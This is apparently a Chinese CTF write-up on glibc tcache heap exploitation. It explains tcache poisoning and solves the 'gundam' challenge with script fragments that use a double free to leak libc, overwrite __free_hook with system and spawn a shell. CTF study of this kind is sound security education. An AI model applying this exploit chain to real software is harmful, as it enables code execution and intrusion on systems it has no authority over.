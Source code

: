 4.tcache poisoning

对于已经在tcache里面的chunk，更改它的fd值即可在malloc时分配任意地址！

5.Smallbin cache filling bck write

在unsorted bin的unlink中，它回到了最原始的unlink，未进行其他检查(如bck->fd != victim)，这样又可以进行DWORD SHOOT啦：

    unsorted_chunks (av)->bk = bck;
    bck->fd = unsorted_chunks (av);

tcache原理及利用凡是介绍完毕，下面我们就gundam一题进行实用tcache漏洞利用

# gundam题解

程序功能如下：

     1 . Build a gundam
     2 . Visit gundams
     3 . Destory a gundam
     4 . Blow up the factory
     5 . Exit

Build:申请一块0x28大小的chunk用来存储gundam的结构，再申请一块0x300大小的chunk作为gundam的name，用户输入name的内容

Visit：打印gundam的name及类型

Destory：free指定gundam的name.没有清空指针，可多次free同一块name chunk.

Blowup:将所有gundam释放，没有释放其中的name


    思路是利用Destory将同一块0x300大小的chunkfree两次进入tcache,再改写它的fd域，name就可以返回任意地址

首先泄露libc地址

    destory(0) #0x300 tcache
    destory(0)  #double free  #0x300 tcache

    build(p64(heap_libc),1) #4
    build('a',1) #5
    build('a',1) #6 point to heap_libc

    data=visit()
    t2=data.index("[6] :")+5
    libc=u64(data[t2:t2+6]+'\x00\x00')

再将free_hook改写为system

    destory(1)
    destory(1)

    build(p64(free_hook),1)#0
    build('/bin/sh',1)#1
    build(p64(system),1)#2

最后调用free函数就相当于调用system函数了，实现get shell

    destory(0,False)

完整脚本[在此](https://github.com/moonAgirl/CTF/tree/master/2018/Hitbxctf/gundam)

# 总结

Tcache是glibc malloc的一个有趣的补充，可提供很明显的性能优势。但是，对于内存分配的安全状态，似乎还有一些倒退的迹象，使得安全性变得极低。这种矛盾表明在性能和安全性之间取得良好的平衡是很困难。对于我们CTFer来说，这倒是一个好消息。

    参考：http://tukan.farm/2017/07/08/tcache/



